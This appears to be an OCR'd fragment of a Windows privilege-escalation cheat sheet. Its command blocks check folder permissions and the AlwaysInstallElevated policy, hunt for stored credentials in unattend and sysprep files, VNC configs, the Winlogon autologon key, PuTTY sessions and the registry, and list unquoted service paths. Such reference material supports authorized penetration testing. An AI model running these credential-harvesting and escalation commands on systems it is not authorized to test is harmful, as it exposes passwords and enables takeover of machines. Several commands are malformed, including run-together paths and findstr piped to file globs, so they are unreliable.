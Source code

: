 ### Find File/Folder Permissions Explicitly Set for a Given User <a id="find-file-folder-permissions-explicitly-set-for-a-given-user"></a>

```bash
icacls.exe C:\folder /findsid userName-or-*sid /t
//look for (F)ull, (M)odify, (W)rite
```

### AlwaysInstallElevated MSI <a id="alwaysinstallelevated-msi"></a>

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated & reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Stored Credentials: Windows <a id="stored-credentials-windows"></a>

```bash
c:\unattend.xmlc:\sysprep.inf
c:\sysprep\sysprep.xml
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini

​findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
dir /s *cred* == *pass* == *.conf​

# Windows Autologon
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"​

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"​

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

​# Registry
reg query HKLM /f password /t REG_SZ /s reg query HKCU /f password /t REG_SZ /s
```

### Unquoted Service Path <a id="unquoted-service-path"></a>

```text
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\" |findstr /i /v """
```
